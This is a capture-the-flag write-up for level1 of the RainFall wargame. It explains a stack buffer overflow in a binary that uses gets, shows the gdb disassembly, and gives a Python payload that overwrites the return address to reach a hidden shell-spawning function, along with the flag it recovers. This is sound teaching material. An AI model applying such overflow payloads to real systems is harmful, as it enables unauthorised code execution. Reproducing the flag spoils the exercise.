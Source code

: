 ### Exploit

First, what do we see when we test the executable? On the face of it, the programme expects some user input and then leaves.
Indeed, there's not much more to it.

```
    (gdb) disas main
    Dump of assembler code for function main:
       0x08048480 <+0>:	push   ebp
       0x08048481 <+1>:	mov    ebp,esp
       0x08048483 <+3>:	and    esp,0xfffffff0
       0x08048486 <+6>:	sub    esp,0x50
       0x08048489 <+9>:	lea    eax,[esp+0x10]
       0x0804848d <+13>:	mov    DWORD PTR [esp],eax
       0x08048490 <+16>:	call   0x8048340 <gets@plt>
       0x08048495 <+21>:	leave
       0x08048496 <+22>:	ret
    End of assembler dump.
```
Thankfully, there's another function which isn't called anywhere in `main`-that is `run`. This function is interesting, as it makes a syscall and spawns a shell! However, how do we get to execute a function that's not called at all? This is when we first introduce the notion of "payload". An exploit is a piece of code written to take advantage of a particular vulnerability. A payload is a piece of code to be executed through said exploit. The exploit in our case is the well-known bufferover flow. Therefore, we want to write a payload which'll exploit this vulnerabilty. A buffer of size 76 is instantiated at the beginning of the programme. Giving the programme a string bigger than said size will result in a segfault.

The address of `run` is `0x08048444`. We want to call this address at the top of  _%esp_, which is the stack pointer register. It stores the address of the top of the stack. This is the address of the last element on the stack. The stack grows downward in memory (from higher address values to lower address values). So the %esp points to the value in stack at the lowest memory address.

```
    level1@RainFall:~$ python -c "print 'A'*76 + '\x44\x84\x04\x08'" > /tmp/payload
    level1@RainFall:~$ cat /tmp/payload - | ./level1
    Good... Wait what?
    cat /home/user/level2/.pass
    53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Most upcoming exploits look like this one, more or less, so let's keep this mind.
